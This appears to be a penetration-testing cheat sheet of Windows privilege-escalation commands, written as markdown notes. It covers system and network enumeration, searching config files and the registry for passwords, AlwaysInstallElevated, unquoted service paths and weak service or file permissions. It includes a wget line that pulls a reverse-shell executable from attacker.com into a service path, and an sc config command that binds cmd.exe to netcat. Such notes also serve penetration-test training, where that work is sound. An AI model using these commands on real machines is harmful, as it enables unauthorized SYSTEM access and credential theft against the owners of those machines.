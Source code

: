 # Windows Privilege Escalation

Windows privilege escalation commands.

Other guides just in case:
* https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html
* http://www.fuzzysecurity.com/tutorials/16.html
* https://github.com/xapax/security/blob/master/privilege_escalation_windows.md
* https://guif.re/windowseop?fbclid=IwAR0jmCV-uOLaUJCnKiGB2ZaDt9XZwlAGM3nTOH0GkS6c0hS63FFSGm97Tdc


### 1. SYSTEM INFORMATION + ACCOUNTS

```powershell
$ systeminfo | findstr /C:"OS Name" /C:"OS Version" /C:"Logon Server"
$ echo %username%         # current user
$ whoami                  # current user
$ set                     # env variables
$ net users               # return a list of all user accounts on the system
$ net user [user]         # return detailed info about a user
```

### 2. NETWORKING

```powershell
$ ipconfig /all           # show details for all network interfaces, physical and logical
$ route print             # show the routing table - set of rules to determine where packets will be directed
$ arp -A                  # show the ARP cache table - a cache of IP / unique MAC address pairs in a single LAN

$ netstat -ano                # show current TCP/IP network connections
$ netsh firewall show state   # show firewall state
$ netsh firewall show config  # show firewall configuration
```

### 3. WINDOWS TASKS

TAKE THE TIME TO INSPECT ALL BINPATHS FOR WINDOWS SERVICES, SCHEDULED TASKS AND STARTUP TASKS.
```powershell
$ schtasks /query /fo LIST /v   # show scheduled tasks (verbose)

$ tasklist /SVC                 # show running processes / associated services

$ net start                     # start Windows services

$ driverquery                   # show 3rd-party drivers

$ net user %username%           # show info about user
```

### 4. QUICK WINS

Missing Windows patches:
1. `wmic qfe get Caption,Description,HotFixID,InstalledOn` (mostly not available to non-admins)
2. Find Windows privesc exploits.
3. Grep for their existence in the output of `wmic` (using KB numbers)
4. If any exploits are missing from the patchlist, use them and profit.

Hardcoded redentials in config files:
```powershell
# LEVEL 1
$ type C:\sysprep.inf
$ type C:\sysprep\sysprep.xml
$ type %WINDIR%\Panther\Unattend\Unattended.xml
$ type %WINDIR%\Panther\Unattended.xml

# LEVEL 2
$ dir /s *pass* == *cred* == *vnc* == *.config*

# LEVEL 3 (.xml .ini .txt)
$ findstr /si password *.xml *.ini *.txt

# LEVEL 4 (in registry)
$ reg query HKLM /f password /t REG_SZ /s
$ reg query HKCU /f password /t REG_SZ /s
```

"AlwaysInstallElevated": this setting allows users of any priv to install .msi files as SYSTEM.
```powershell
# Output of both commands need to = 1
$ reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
$ reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```


### 5. WINDOWS SERVICES, FILE/FOLDER PERMISSIONS

For restarting services or binaries, try various methods to restart:
```powershell
$ net start
$ sc start
$mysql> RESTART;    # using service commands itself to restart
```

Unquoted service paths:  
A service is vulnerable path to the executable has a space in the filename and the file name is not wrapped in quote marks; exploitation requires write permissions to the path before the quote mark.
```powershell
# SCENARIO 1
$ wmic service get name,pathname        # Find possible vulnerable services
SERVICENAME           PATH
. . .                 . . .
PFNet                 C:\Program Files\Privacyware\PrivFirewall 7.0\pfw.exe
. . .                 . . .
$ wmic service get pathname,startname   # Check if service runs with Admin privileges
$ wget http://attacker.com/rshell.exe -O C:\Program Files (x86)\Privacyware\PrivFirewall.exe   # Transfer rshell to path
$ net start service / reboot computer /


```

Windows weak service permissions:
```powershell
$ sc qc [servicename]               # query service

$ accesschk.exe /accepteula         # DO THIS FIRST
$ accesschk.exe -ucqv UPNPHOST      # check required priv for every service using accesschk.exe
$ accesschk.exe -uwcqv "Authenticated Users" * # find services which allow access for "Authenticated Users"
```

Reconfigure Windows services to escalate privileges:
```powershell
$ sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
$ sc config upnphost obj= ".\LocalSystem" password= ""
$ net start upnphost
```

File and folder permissions:
* Look for weak permissions such as "NT AUTHORITY\AUTHENTICATED USERS: <I> <M>"
* For binaries that load with SYSTEM privileges, replace with your own binary.

```powershell
$ icacls [file or folder path]
$ cacls [file or folder path]
$ accesschk.exe -dqv [file or folder path]
```

Find all weak folder permissions per drive:
```powershell
$ echo Finding all weak folder permissions per drive
$ accesschk.exe -uwdqs Users c:\ /accepteula
$ accesschk.exe -uwdqs "Authenticated Users" c:\
```

Find all weak file permissions per drive:
```powershell
$ accesschk.exe -uwqs Users c:\*.* /accepteula
$ accesschk.exe -uwqs "Authenticated Users" c:\*.*
```

Check PATH system variable:
* All non-default directories in root `C:\` will give WRITE access to the Authenticated Users group!!!
* Look for non-default dirs in `%path%`
